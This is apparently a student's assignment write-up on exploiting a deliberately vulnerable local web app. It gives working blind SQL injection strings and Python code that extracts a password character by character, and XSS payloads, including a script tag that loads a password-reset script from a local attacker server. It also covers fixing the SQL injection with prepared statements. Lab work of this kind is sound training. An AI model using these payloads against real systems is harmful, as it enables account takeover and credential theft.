


FIT5003 Assignment 2 - SQLi, XSS, and CSRF in OWASP2017
Assignment Requirements
You can find it in: https://github.com/RdWeirdo981/Master-of-Cybersecurity
Task 1 – SQL injection
My username: user8069
Step 1: Approach to the SQL statement
The first thing that I want to make sure is that if I can use an SQL statement to test whether my username exists. So, I enter the following line and click login.
1 | ' OR substr(username, 1, 8)='user8069' -- |
Note: There should be always a space after “–”
It worked! Thus, my username does exist. Furthermore, I can simply append another substr() comparison statement after this one to test the password that is assigned to my username.
1 | ' OR (substr(username, 1, 8)='user8069' AND substr(password,i,1)= 'j') -- |
Notice:
- We do not need to encode the input to the ASCII format. This is because we are using a POST request rather than GET.
Step 2: Understanding POST request
GET() method requires the parameters added in the url, while POST() requires the parameters as some values and send them to the url. I use the following code to test if a known username&password pair can be sent by my code.
1 | data = {'username':"john",'password':"monkey",'login-php-submit-button':"Login"} |
And the HTTP history in BRUP is the same as we directly input username & password.
Step 3: Writing the code
I changed the input in data variable in my python code, and created a python file to demonstrate the attack, and it worked.
1 | data = {'username':"' OR (substr(username, 1, 8)='user8069' AND substr(password,{},1)='{}') -- ".format(i,j),'password':"",'login-php-submit-button':"Login"} |
Notice:
substr(password,i,1)=0will get successful anyway!! In our code, we should exclude integer 0 and finally consider it. (or we don’t. I deleted the 0 protection in my code since all the values of j from printable are quoted by ‘’. But in case any further condition being added, we should always consider this.)substr(password,{},1)={}is not right!!! Since the input should be quoted as a string. I started with “= {} “, which gave me plenty of 0 as returns. This is because we have to make this an SQL statement. If the ‘’ is missing, and when j is an integer, the SQL will read it as an integer.I noticed that there’s no difference between uppercase & lowercase, so the same alphabetic letter will return twice. Just simple remove it. (Worthy of trying to use python code to remove it, but I’m too lazy.)
Step 4: Result
Username: user8069
Password: cgwqu12hqzinfoaxjeo8
The related python file has been attached in the “other file” submission box. It is also added in the python file.
Appendx.1
1 | 1. import requests |
Task 2 – XSS injection
Notice: when no login à user does not exist à can’t edit profile
So, we can only change the existed users’ profile, which is our user account.
Step 1: Get the url
1 | <script>alert("The ultimate question of life the universe and everything.")</script> |

In BURP, sending the HTTP history of this POST request to Repeater and change the method to GET will bring us the following URL:
We will change the highlighted part later.
Step 2: Close the proxy
We have to change the proxy setting in Firefox to be “No proxy” to perform the attack.

If we don’t do this, when we access 127.0.0.1:9090, the browser will be re-directed to the XAMPP dashboard.
Step 3: Writing JavaScript file
The consultation video suggested that we can start from the resetDB.js. It is obvious that we should change the GET request to POST, but like in task 1, the POST request will send the data as a whole package. So, I observed the parameter in Edit Profile when I request a normal POST on the edit profile page. This is also why we need an authenticated account. If we can’t observe the POST request’s parameters, we will not know how to structure our data in JS.
I found this link is very useful: https://javascript.info/xmlhttprequest#post-formdata
So, I used formdata in my POST request rather than filling send() directly with “csrf-token=&username=…” stuffs. The completed code is in js file.
Step 4: Perform the attack
After starting our attacker’s server, we now enter this script:
1 | <script src="http://127.0.0.1:9090/resetPW.js"> |
I wrote the alert at the end of the js file for convenience to test if it worked, since we cannot check the BURP (the proxy is closed.). But we still need to see if the profile has been changed. I have already reset the database before I did this attack, so if the password=42 is correct, then this attack can be seen as successful.

Done!
Step5: The URL
There is still one thing to do: get the url. So we replace the previous GET url with our script, then it should be all settled. We will get the same result as in Step 4. (And we did.)
Notice: this should be encoded since it’s a URL.
Appendix.2
1 | 1. function resetPW() { |
Task 3 – Fixing the vulnerability
Step 1: Understanding PHP
I have not learnt PHP before so I spend some times on studying it. For this part, the material that I used to learn PHP are:
https://www.w3schools.com/php/php_ref_mysqli.asp , our week8 lecture.
Step 2: Implement the Protection
The protection code can be seen in both PHP files. They are a bit long so I don’t attach them in appendix. But you can see them in the “other file” submission.
- In
SQLQueryHandler.php: you will find the fixed code inauthenticateAccount()andgetUserAccount(). I deleted the original query and made adefendSQLI()function in another file to pass the query.
- In
MySQLHandler.php, I implement the protection by writing a new functiondefendSQLI(). The following is the main code of it. I configured the code of week8 lecture.
Notice:
I thought I can implement it only in the
authenticateAccount()initially, but the website still had zero protection. So, I thought maybe it’s the same thing in the other function. It turned out it truly is.I struggled for a long while with where I can put this
$stmtthings. Initially I thought I can put it indoExecute(), but I found that thedoExexute()only accepts query. So, I just wrote a new function by myself.I was stuck on how to connect to the database as well, since I have no experience on writing PHP code. But I observed the code in this file and found the
mMySQLConnectionwill create the database connection indoConnectToDatabase(). So, I guess we should use$this->$mMySQLConnectionrather than$mysqli.
Step 3: Test If It Works
Initially, I did not succeed on this task. I used the code that was provided in our week8 lecture, but I made a stupid mistake: when I was writing the query of prepare() function, I forget to pass the password = ?, and I wrote bind_param(“ss”,$un, $pw) in the next line, so it caused the website totally crashed.
Now, I have fixed it, and the login page is protected well. If you enter the following statement in Username and click “Login”, the page will show “Password incorrect”.

I had a lot of fun in this assignment. Thank you so much!